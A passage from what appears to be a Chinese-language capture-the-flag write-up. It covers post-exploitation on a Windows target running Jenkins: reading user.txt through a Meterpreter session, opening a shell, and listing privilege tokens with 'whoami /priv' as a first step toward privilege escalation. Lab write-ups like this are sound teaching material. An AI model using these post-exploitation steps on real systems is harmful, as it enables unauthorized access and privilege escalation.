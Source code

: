 ## 后剥削

我将从转储`user.txt`文件开始获取一个标志:

```
**meterpreter > search -f user.txt**
Found 1 result…
 c:\Users\bruce\Desktop\user.txt (32 bytes)
**meterpreter > cat C:\\Users\\bruce\\Desktop\\user.txt**
[redacted]**meterpreter >**
```

接下来，我将升级我的特权来获得`root.txt`旗帜。首先，我进入一个 Windows 命令提示符 shell，并使用`whoami /priv`来获取我目前拥有的特权令牌:

```
**meterpreter > shell**
Process 2768 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright © 2009 Microsoft Corporation. All rights reserved.**C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv**
whoami /priv
```

返回了以下特权令牌及其各自的状态:

![](img/92df7d8760adff8a1083568e48bc2c28.png)
